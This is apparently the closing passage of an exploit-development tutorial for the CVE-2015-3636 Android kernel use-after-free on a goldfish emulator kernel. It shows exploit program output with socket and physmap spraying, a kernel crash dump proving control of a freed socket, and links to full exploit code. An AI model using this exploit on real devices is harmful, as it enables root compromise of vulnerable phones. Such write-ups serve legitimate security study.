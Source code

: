 ```c++

	printf("[~] Done fetching the UAF socket!\n");
}
```

Till now, we can check if or not the UAF is succeed? (The entire code can be downloaded here: https://gist.github.com/f0rm2l1n/31ab1d42e0e18f94a5ce928816a5f65c)

```shell
# user screen
$ # also need adb push the code 
$ ./exp1
[+] Start prepare...
[~] Done prepare!
[+] Start protection...
[~] Done protection!
[+] Start socket spraying...
[~] Done socket spraying!
[+] Start physmap spraying...
[~] Done physmap spraying!
[+] Start fetching the UAF socket...
[*] obtained magic:0x4b625e33
[~] Done fetching the UAF socket!


# kernel dmesg
.......
IPv4: Attempt to release alive inet socket ffffffc032400000
IPv4: Attempt to release alive inet socket ffffffc032400300
IPv4: Attempt to release alive inet socket ffffffc032400600
IPv4: Attempt to release alive inet socket ffffffc032400900
IPv4: Attempt to release alive inet socket ffffffc032400c00
IPv4: Attempt to release alive inet socket ffffffc032400f00
IPv4: Attempt to release alive inet socket ffffffc032401200
IPv4: Attempt to release alive inet socket ffffffc032401500
IPv4: Attempt to release alive inet socket ffffffc032401800
IPv4: Attempt to release alive inet socket ffffffc032401b00
IPv4: Attempt to release alive inet socket ffffffc032402000
IPv4: Attempt to release alive inet socket ffffffc032402300
IPv4: Attempt to release alive inet socket ffffffc032402600
IPv4: Attempt to release alive inet socket ffffffc032402900
IPv4: Attempt to release alive inet socket ffffffc032402c00
IPv4: Attempt to release alive inet socket ffffffc032402f00
IPv4: Attempt to release alive inet socket ffffffc032403200
IPv4: Attempt to release alive inet socket ffffffc032403500
IPv4: Attempt to release alive inet socket ffffffc032403800
IPv4: Attempt to release alive inet socket ffffffc032403b00
IPv4: Attempt to release alive inet socket ffffffc032404000
Unable to handle kernel paging request at virtual address 4141414141414141
pgd = ffffffc03dbcb000
[4141414141414141] *pgd=0000000000000000
Internal error: Oops: 94000005 [#1] SMP
Modules linked in:
CPU: 0 PID: 945 Comm: exp1 Not tainted 3.10.0+ #1
task: ffffffc03ed32d00 ti: ffffffc03dbd4000 task.ti: ffffffc03dbd4000
PC is at ip_mc_drop_socket+0x34/0xa8
LR is at ip_mc_drop_socket+0x24/0xa8
pc : [<ffffffc0003bdc0c>] lr : [<ffffffc0003bdbfc>] pstate: 60000145
sp : ffffffc03dbd7d90
x29: ffffffc03dbd7d90 x28: ffffffc03dbd4000
x27: ffffffc0005dc000 x26: 0000000000000039
x25: ffffffc03daf7710 x24: ffffffc030c31430
x23: ffffffc00045a000 x22: ffffffc031620000
x21: ffffffc03ebf8180 x20: ffffffc0316200e8
```

[^1]: Owe You Android, Yet Another Universal Root. [LINK](https://www.blackhat.com/docs/us-15/materials/us-15-Xu-Ah-Universal-Android-Rooting-Is-Back-wp.pdf)
[^2]: Pwnie for Best Privilege Escalation Bug, 2015. [LINK](https://pwnies.com/archive/2015/nominations/)
[^3]: Bug Patch. [LINK](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=a134f083e79fb4c3d0a925691e732c56911b4326)
[^4]: One workable exploit [LINK](https://github.com/4B5F5F4B/Exploits/tree/master/Linux/CVE-2015-3636)
[^5]: goldfish git repo [LINK](https://android.googlesource.com/kernel/goldfish/+/refs/heads/android-goldfish-3.10-k-dev)